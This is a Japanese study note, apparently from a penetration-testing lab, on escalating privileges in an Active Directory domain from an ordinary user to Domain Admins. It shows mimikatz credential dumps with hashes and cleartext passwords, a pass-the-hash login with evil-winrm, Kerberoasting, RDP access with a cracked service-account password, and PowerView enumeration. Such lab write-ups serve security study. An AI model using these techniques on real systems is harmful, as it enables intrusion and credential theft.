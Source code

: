 # 主題
ここでは、Active Directoryを低い権限から最終的にDomai Adminsの権限まで昇格する一連の流れを示す。Active Directoryを中心に話す。

流れとしては

**10.11.1.123** (ただのUsersグループ) -> **10.11.1.121** (サービスアカウント) -> **10.11.1.120** (Domain Admins)

の流れ。

# 10.11.1.123 (ただのUsersグループのメンバー)

（イニシャルシェルは、http://10.11.1.123/Books にアクセスして、My Business-Period(Bizuno Library 3.1.7)とわかる。エクスプロイトがある。**初めからすでにsystem権限の状態**）

mimikatzでハッシュを取り出しても、このマシン10.11.1.123のユーザxor-app59についてのハッシュしか出てこない。すなわちActive Directoryのドメイン中の他のユーザのハッシュはmimikatzでは出てこない
（そりゃそうか。Domain Adminsの人はACのトップであり、全ユーザを管理するから各ユーザのハッシュが出てくるのか。）

ちなみにmimikatzでは、このマシンxor-app59のAdministratorのハッシュが出た：

```
Authentication Id : 0 ; 337803 (00000000:0005278b)
Authentication Id : 0 ; 337803 (00000000:0005278b)
Session           : Interactive from 0
User Name         : Administrator
Domain            : XOR-APP59
Logon Server      : XOR-APP59
Logon Time        : 9/20/2021 2:39:23 AM
SID               : S-1-5-21-3051798232-4248191986-2095020414-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : XOR-APP59
         * NTLM     : 3fee04b01f59a1001a366a7681e95699
         * SHA1     : 3a8679fbfdfea03f2d3b5a1a1aa185cca912014b
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : XOR-APP59
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : XOR-APP59
         * Password : (null)
```

だからxor-app59（10.11.1.123）には次のようにPass the Hashできる：

```
┌──(kali㉿kali)-[~]
└─$ evil-winrm -u Administrator -H 3fee04b01f59a1001a366a7681e95699  -i 10.11.1.123
```

ユーザグループだからか、サービスアカウントに対してSilver Ticket作ってサービスアカウントのシェルを起動させようとしたり、（AdministratorにOver pass the hashしようとしたり...<- いやいや、
このAdministratorって自分の、xor-app59のAdministratorのことだよ）したけど無理だった。

しかし、**Kerberoasができた！** （`Invoke-Kerberoast`でkrb5tgs型のハッシュをとって変換してhashcatでクラックするやつ）


# 10.11.1.121 (サービスアカウント）

xor-app23としてrdpじゃなくて、サービスアカウントSQLServer（PowerViewの`Get-NetUser`で表示）としてrdpでドメインをきちんと指定してアクセス：（10.11.1.121がxor-app23と分かったのは、
autoreconのnmapの結果）

```
┌──(kali㉿kali)-[~]
└─$ rdesktop -d xor.com -u SQLServer -p shantewhite 10.11.1.121
```

このSQLServerユーザでログインするとproof.txtが読める、すなわち10.11.1.121のadmin権限がある。（コマンドプロンプトを**Run as Administrator**として開ける）

**System権限にも関わらずmimikatzの`sekurlsa::logonpasswords`が効かない場合は、mimikatzの新しい方（mimikatz211.exe）を使え！** （<- 古いmimikatzにある問題だって。）


**daisyのrdpファイル発見。** mimikatzにより、daisyのパスワードが**XorPasswordIsDead17**と判明。


＜daisyについて＞

すでにsystem権限（IPアドレスは10.11.1.122)。

```
C:\Windows\system32>whoami
xor\daisy

C:\Windows\system32>ipconfig

   Connection-specific DNS Suffix  . :
   IPv4 Address. . . . . . . . . . . : 10.11.1.122
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 10.11.0.1
```

ここまでで、10.11.1.123, 10.11.1.121, 10.11.1.122を攻略できた。ということは、残すはDomain Adminsの10.11.1.123だ！

mimikatzはここら辺にしておいて、PowerViewでActive Directoryの調査を進める。最終ゴールはDoamin Adminsに行き着くこと！！

daisyはServer_Personelのメンバーだ。

```
PS C:\> Get-NetUser Daisy


logoncount            : 15
badpasswordtime       : 12/31/1600 4:00:00 PM
distinguishedname     : CN=Daisy,OU=ServerPersonal,OU=xorUsr,DC=xor,DC=com
objectclass           : {top, person, organizationalPerson, user}
displayname           : Daisy
lastlogontimestamp    : 12/18/2021 6:58:37 AM
userprincipalname     : daisy@xor.com
name                  : Daisy
objectsid             : S-1-5-21-2293535422-227910474-3663383505-1119
samaccountname        : daisy
codepage              : 0
samaccounttype        : USER_OBJECT
accountexpires        : NEVER
countrycode           : 0
whenchanged           : 12/18/2021 2:58:37 PM
instancetype          : 4
usncreated            : 12882
objectguid            : 9a47b615-4ee5-4016-a9da-042819b57b5c
lastlogoff            : 12/31/1600 4:00:00 PM
objectcategory        : CN=Person,CN=Schema,CN=Configuration,DC=xor,DC=com
dscorepropagationdata : 1/1/1601 12:00:00 AM
memberof              : CN=Server_Personel,OU=xorGrps,DC=xor,DC=com
lastlogon             : 12/18/2021 6:59:02 AM
badpwdcount           : 0
cn                    : Daisy
useraccountcontrol    : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD
whencreated           : 5/20/2019 8:07:07 PM
primarygroupid        : 513
pwdlastset            : 5/20/2019 1:07:07 PM
usnchanged            : 57501
```

以下の出力より、Domain Adminsに上り詰めるには、**Albert**か**David**のクリデンシャルをゲットすれば良い

```
PS C:\> Get-NetGroup "Domain Admins"


grouptype              : GLOBAL_SCOPE, SECURITY
admincount             : 1
iscriticalsystemobject : True
samaccounttype         : GROUP_OBJECT
samaccountname         : Domain Admins
whenchanged            : 5/20/2019 8:13:09 PM
objectsid              : S-1-5-21-2293535422-227910474-3663383505-512
objectclass            : {top, group}
cn                     : Domain Admins
usnchanged             : 13265
dscorepropagationdata  : {5/20/2019 8:13:09 PM, 5/20/2019 7:58:00 PM, 1/1/1601 12:04:16 AM}
memberof               : {CN=Denied RODC Password Replication Group,CN=Users,DC=xor,DC=com, CN=Administrators,CN=Builtin,DC=xor,DC=com}
description            : Designated administrators of the domain
distinguishedname      : CN=Domain Admins,CN=Users,DC=xor,DC=com
name                   : Domain Admins
member                 : {CN=Albert,OU=AdminPersonal,OU=xorUsr,DC=xor,DC=com, CN=David,OU=AdminPersonal,OU=xorUsr,DC=xor,DC=com,
                         CN=Administrator,CN=Users,DC=xor,DC=com}
```

やはり！daisy（10.11.1.122）のとこにdavidのクリデンシャルがあった！！

```
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 412581 (00000000:00064ba5)                                                                                                               Session           : Batch from 0                                                                                                                                 User Name         : david                                                                                                                                        Domain            : xor                                                                                                                                          Logon Server      : XOR-DC01                                                                                                                                     Logon Time        : 12/18/2021 5:59:52 AM                                                                                                                        SID               : S-1-5-21-2293535422-227910474-3663383505-1123                                                                                                        msv :                                                                                                                                                             [00000003] Primary                                                                                                                                               * Username : david                                                                                                                                               * Domain   : xor                                                                                                                                                 * NTLM     : d4738e8c31d43e0147f27894a20e6683                                                                                                                    * SHA1     : b1c2b2c766e7ad7688029ebc42fbacabae7fba72                                                                                                            * DPAPI    : b712cb5d0fb0bdf9530c115100e2b574                                                                                                                   tspkg :                                                                                                                                                          wdigest :                                                                                                                                                         * Username : david                                                                                                                                               * Domain   : xor                                                                                                                                                 * Password : (null)                                                                                                                                             kerberos :                                                                                                                                                        * Username : david                                                                                                                                               * Domain   : XOR.COM                                                                                                                                             * Password : dsfdf34534tdfGDFG5rdgr 
```

daisyでBlood Houndやってみよう（daisyがxor-app07と判明した）。



![Hound_on_Daisy](https://user-images.githubusercontent.com/85237728/146646657-106a16a7-1671-402c-949d-b6176daaefab.png)

